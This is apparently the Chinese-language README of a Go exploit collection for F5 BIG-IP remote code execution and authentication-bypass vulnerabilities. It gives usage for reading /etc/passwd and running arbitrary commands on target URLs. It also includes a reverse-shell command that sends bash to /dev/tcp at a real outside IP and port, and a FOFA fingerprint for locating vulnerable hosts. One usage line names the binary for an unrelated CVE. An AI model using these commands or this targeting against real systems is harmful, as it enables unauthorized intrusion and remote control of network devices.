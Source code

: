 # F5-BIG-IP POC

go语言编写CVE-2020-5902 CVE-2021-22986 CVE-2022-1388 POC集合 后续会增加F5其他POC

author:160team.west9B

**仅限用于安全研究人员在授权的情况下使用，遵守网络安全法，产生任何问题，后果自负，与作者无关。**

# 01-基本介绍

F5 POC合集：

CVE-2020-5902：F5 BIG-IP远程代码执行漏洞

CVE-2021-22986：F5 BIG-IP iControl REST未授权远程命令执行漏洞

CVE-2022-1388：身份验证绕过远程命令执行



# 02-使用说明

## usage: ./F5-BIG-IP  -u url 

CVE-2020-5902验证使用任意文件下载，返回/etc/passwd 则漏洞存在

CVE-2021-22986，CVE-2022-1388 POC默认执行id命令，返回{id}则漏洞存在，可使用-c自定义命令

## 反弹shell

usage: ./cve-2022-30525.exe -m exp -u url -c bash -i >& /dev/tcp/47.243.251.103/1377 0>&1

# Screenshots
![Image text](https://github.com/west9b/F5-BIG-IP-POC/blob/main/poc.png)
![Image text](https://github.com/west9b/F5-BIG-IP-POC/blob/main/poc1.png)
# fofa
icon_hash="-335242539"
